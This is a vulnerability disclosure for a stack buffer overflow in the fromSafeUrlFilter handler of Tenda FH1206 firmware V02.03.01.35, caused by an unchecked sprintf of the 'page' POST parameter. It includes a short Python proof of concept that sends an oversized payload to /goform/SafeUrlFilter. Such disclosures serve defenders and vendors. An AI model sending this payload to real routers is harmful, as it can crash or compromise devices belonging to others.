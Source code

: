 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2905.html

## Affected version

FH1206 V02.03.01.35

## Vulnerability details

The Tenda FH1206 V02.03.01.35 has a stack overflow vulnerability located in the `fromSafeUrlFilter.`This function accepts the `page` parameter from a POST request. The statement ` sprintf(v16, "firewall_urlfilterlist.asp?page=%s", v11);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v16` array, thus triggering this security vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 155515.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/屏幕截图 2024-08-02 170943.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SafeUrlFilter"
payload = b"a"*1000

data = {"page": payload, "menufacturer": "1"}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240801202321673](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801202321673.png)